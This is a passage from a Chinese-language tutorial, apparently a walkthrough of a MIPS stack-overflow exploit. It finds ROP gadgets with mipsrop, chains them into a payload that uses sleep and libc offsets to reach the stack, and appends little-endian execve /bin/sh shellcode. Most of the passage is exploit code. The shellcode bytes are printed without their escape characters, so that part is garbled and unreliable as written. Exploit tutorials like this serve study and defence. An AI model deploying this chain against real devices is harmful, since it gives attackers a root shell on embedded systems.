 5)我们接下来寻找一个执行完`sleep`函数，跳转的地址，因为这个程序里面栈上可以执行，所以我们在上面部署shellcode，然后跳转过去即可，接下来我们要寻找一个跳转到栈上某个位置的gadget3，没有找到，然后就想先控制一个寄存器的值为栈上的一个值，然后在跳转到这，因此我们用mipsrop.findstacker()寻找，

```
.text:00016DD0                 addiu   $a0, $sp, 0x58+var_40
.text:00016DD4                 move    $t9, $s0
.text:00016DD8                 jalr    $t9
```

第一个gadget3如上所示，也就是，因此我们需要先控制寄存器`$s0`，我们看到上面的gadget2，还能控制寄存器`$s0`。

6）接下来我们寻找一个利用`$a0`跳转的gadget4，我们用mipsrop.find(“move `$t9`,`$a0`“)，我们如愿找到一个

```
.text:000214A0                 move    $t9, $a0
.text:000214A4                 sw      $v0, 0x38+var_20($sp)
.text:000214A8                 jalr    $t9
```

所以我们的利用脚本变成下面的样子：

```
"a"*508
p32(gadget1+libc_base)
"b"*0x58
"bbbb" #s0
p32(gadget2+libc_base) #s1
p32(sleep_offset+libc_base) #s2
p32(gadget0+libc_base)
#---------
"c"*0x18
p32(gadget4+libc_base) #s0
"cccc" #s1
"cccc" #s2
p32(gadget3+libc_base) #ra
#---------
"d"*0x18
shellcode
```

7)我们接下来就是填充shellcode，找到一个[网站](http://shell-strom.org/shellcode)，在上面找到一个mips大端的`execve /bin/sh`的shellcode，将其转换成小端的shellcode如下：

```
shellcode = “”
shellcode += "xffxffx06x28"  # slti $a2, $zero, -1
shellcode += "x62x69x0fx3c"  # lui $t7, 0x6962
shellcode += "x2fx2fxefx35"  # ori $t7, $t7, 0x2f2f
shellcode += "xf4xffxafxaf"  # sw $t7, -0xc($sp)
shellcode+= "x73x68x0ex3c"  # lui $t6, 0x6873
shellcode += "x6ex2fxcex35"  # ori $t6, $t6, 0x2f6e
shellcode += "xf8xffxaexaf"  # sw $t6, -8($sp)
shellcode += "xfcxffxa0xaf"  # sw $zero, -4($sp)
shellcode += "xf4xffxa4x27"  # addiu $a0, $sp, -0xc
shellcode += "xffxffx05x28"  # slti $a1, $zero, -1
shellcode += "xabx0fx02x24"  # addiu;$v0, $zero, 0xfab
shellcode += "x0cx01x01x01"  # syscall 0x40404
```
